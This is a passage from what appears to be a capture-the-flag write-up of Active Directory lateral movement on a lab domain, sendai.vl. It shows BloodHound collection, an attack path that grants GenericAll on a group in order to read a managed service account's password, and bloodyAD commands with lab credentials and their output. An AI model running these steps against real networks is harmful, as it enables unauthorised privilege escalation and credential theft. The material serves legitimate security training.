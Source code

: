 ## Lateral Movement
### BloodHound Analysis
Dumping BloodHound data for path analysis:
```
bloodhound-python -u sqlsvc -p SurenessBlob85 -d sendai.vl -c All --zip -ns 10.129.234.66
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: sendai.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Found 27 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.sendai.vl
cINFO: Done in 00M 45S
INFO: Compressing output into 20251020233839_bloodhound.zip
```
Then I stared up `bloodhound` and uploaded my zip file. Then looking at the 2 users that I had initially owned I get this attack chain
![image](Pasted image 20251020234149.png)
This is a valid attack chain since `MGTSVC$` is part of remote management hence will have access to `winrm`. And also I identify this user and the one that is vulnerable to `kerebroasing`
![image](Pasted image 20251020234446.png)

**Attack Path Identified:**  
`Elliot.Yates` → GenericAll on `admsvc` group → `admsvc` group membership → Read GMSA password for `mgtsvc$`

### GMSA Exploitation
#### Step 1: Grant GenericAll Privileges
Using `bloodyAD` to grant `Elliot.Yates` GenericAll over the `admsvc` group:
```
bloodyAD -u Elliot.Yates -p 'Pass!@#' -d sendai.vl --dc-ip 10.129.234.66 add genericAll admsvc Elliot.Yates
[+] Elliot.Yates has now GenericAll on admsvc
```
#### Step 2: Add to admsvc Group
Adding `Elliot.Yates` to the `admsvc` group:
```
bloodyAD -u Elliot.Yates -p 'Pass!@#' -d sendai.vl --dc-ip 10.129.77.37 add groupMember admsvc Elliot.Yates
[+] Elliot.Yates added to admsvc
```
